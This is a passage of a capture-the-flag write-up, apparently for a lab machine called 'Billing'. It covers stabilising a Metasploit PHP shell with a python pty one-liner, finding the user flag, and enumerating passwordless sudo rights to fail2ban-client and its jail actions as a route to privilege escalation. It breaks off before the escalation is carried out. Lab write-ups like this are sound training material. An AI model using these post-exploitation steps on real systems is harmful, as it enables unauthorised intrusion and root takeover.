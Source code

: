 ```bash

   Id  Name
   --  ----
   0   PHP



View the full module info with the info, or info -d command.

```

Now, set the options and start out shell..

to stabilize the shell I used 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
asterisk@Billing:/$ find / -type f -name "user.txt" 2>/dev/null
```

use ```cat /PATH/TO/user.txt``` and get the first flag.

### get more privileges...

```bash
asterisk@Billing:/$ id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
asterisk@Billing:/$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

With the ```fail2ban-client``` command, it is possible to change the configuration of the fail2ban server.
For more informations about ```fail2ban``` use google ;-P .

```bash
asterisk@Billing:/$ sudo fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
```

now we have the name of the Jail.

```bash
asterisk@Billing:/$ sudo fail2ban-client get asterisk-iptables actions
The jail asterisk-iptables has the following actions:
iptables-allports-ASTERISK
```
